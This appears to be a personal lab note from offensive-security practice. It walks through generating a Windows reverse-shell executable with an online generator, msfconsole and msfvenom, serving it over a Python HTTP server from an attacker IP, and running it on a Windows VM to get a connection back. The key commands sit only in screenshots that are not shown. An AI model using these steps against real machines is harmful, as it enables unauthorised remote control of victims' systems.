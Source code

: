 

1.  open this website: [Online - Reverse Shell Generator (anir0y.in)](https://shell.anir0y.in/)
2. change / add IP and port number of attacker machine 
	1. we added `192.168.145.178` and port `8443`
3. we run the command: 
4. ![[Pasted image 20240729123547.png]]
	1. IP is set
	2. port is set
	3. click on dropdown select `msfconsole`
	4. copy the command
	5. paste it on Kali Linux terminal 
	6. ![[Pasted image 20240729123657.png]]
	7. create the malware :
		![[Pasted image 20240729123846.png]]
			1. click on MsfVenom 
			2. select 1st payload option
			3. copy the command
			4. paste it on new terminal and hit enter
			5. ![[Pasted image 20240729123950.png]]
			6. start a http server using python
				1. `python3 -m http.server`
				2. ![[Pasted image 20240729124033.png]]
				3. then goto windows machine
		8. GOTO windows VM 
		9. goto the url `http://attackerip:8000`
			1. in our case this is http://192.168.145.178:8000
			2. download the `reverse.exe` and run it!
			3. if all goes good, we will be getting a reverse connection on Kali Linux
			4. ![[Pasted image 20240729124256.png]]
		10. click on reverse.exe 
		11. you'll see a connection on first terminal onKali linux
		12. ![[Pasted image 20240729124335.png]]
----
## commands